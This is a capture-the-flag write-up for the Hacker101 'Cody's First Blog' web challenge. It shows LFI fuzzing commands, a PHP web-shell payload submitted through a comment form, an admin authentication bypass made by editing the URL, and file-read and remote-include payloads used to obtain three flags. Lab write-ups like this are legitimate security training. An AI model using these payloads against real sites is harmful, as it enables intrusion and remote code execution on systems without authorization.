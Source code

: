 # Cody's First Blog
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 3/3

---

## 🧠 Thought Process
When I first accessed the website, I immediately started reconnaissance. I examined the content and checked the source code to understand the application structure. I noticed several potential attack vectors:

1. An admin login page referenced in the source code
2. A comment section for user input (potential injection point)
3. A mention of PHP `include()` function usage, suggesting possible Local File Inclusion (LFI)
4. The blog post mentioning that "PHP doesn't need a template language because it *is* a template language"

Multiple attack paths were available, so I decided to explore them systematically.

---

## 🔍 Step 1: Local File Inclusion (LFI) Discovery
I started by fuzzing for LFI vulnerabilities using `ffuf` with a wordlist from SecLists:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt -O lfi.txt
ffuf -u "https://c663cfaeb30f0d6e6437dbf942b65ab7.ctf.hacker101.com/?page=../../../../FUZZ%00" -w lfi.txt -fs 0
```

The fuzzing revealed multiple LFI paths, including:
- `../../apache/logs/access.log`
- `/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- Various other system files

However, when I tried to exploit these paths, I encountered inclusion errors, indicating the files weren't being properly included for execution.

---

## 🚩 Step 2: First Flag - Log Poisoning via Comment Section
Instead of continuing with the LFI approach, I pivoted to the comment section. I realized I could potentially poison log files by injecting PHP code through user input.

I submitted the following PHP payload in the comment form:
```php
<?php system($_GET['cmd']); ?>
```

**Surprisingly, this immediately revealed the first flag!** The comment section was directly executing PHP code without proper sanitization.

![First Flag](FirstFlag.png)

---

## 🔐 Step 3: Second Flag - Admin Panel Access
Next, I investigated the admin login page that was referenced in the HTML source:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

I tried accessing `?page=admin.auth.inc` but it seemed to require authentication. However, I had a hunch about the file structure. I tried removing the "auth" portion from the URL:

**Before:** `
?page=admin.auth.inc
`
<br>
![Admin Auth Required](AdminAuthInc.png)

**After:** `
?page=admin.inc
`
<br>
![Admin Panel Access](AdminAuth.png)

This bypassed the authentication entirely! The admin panel was accessible, and the second flag was displayed right there.

---

## 📝 Step 4: Third Flag - Source Code Disclosure
For the final flag, I needed to read the source code of the application. I went back to the comment section and tried various PHP payloads to read files:

```php
<?php echo readfile("index.php")?>
<?php echo ("index.php")?>
```

After submitting these comments, they appeared in the admin panel but weren't visible on the client side. I realized I needed to find a way to make the comments execute properly.

![Approved Comments](ApprovedComments.png)

Through research and experimentation, I discovered that by accessing:
```
/?page=http://localhost/index
```

This made the comments execute properly, and when I checked the source code of the resulting page, I could see the contents of `index.php` along with the third flag embedded in the source.

![Source Code Flag](SourceCodeFlag.png)

---

## 🏁 Captured Flags
- **Flag 1:** Found through direct PHP code execution in comments
- **Flag 2:** Discovered by bypassing admin authentication 
- **Flag 3:** Retrieved through source code disclosure via comment injection

---

## ✅ Summary
This challenge demonstrated multiple web vulnerabilities:

1. **Code Injection:** The comment system directly executed PHP code without sanitization
2. **Authentication Bypass:** Removing "auth" from the admin URL bypassed security
3. **Local File Inclusion:** Combined with code injection to read source files
4. **Improper Input Validation:** Multiple injection points throughout the application

The key lesson is that web applications using PHP's `include()` function with user input are extremely dangerous, especially when combined with insufficient input validation and authentication mechanisms.

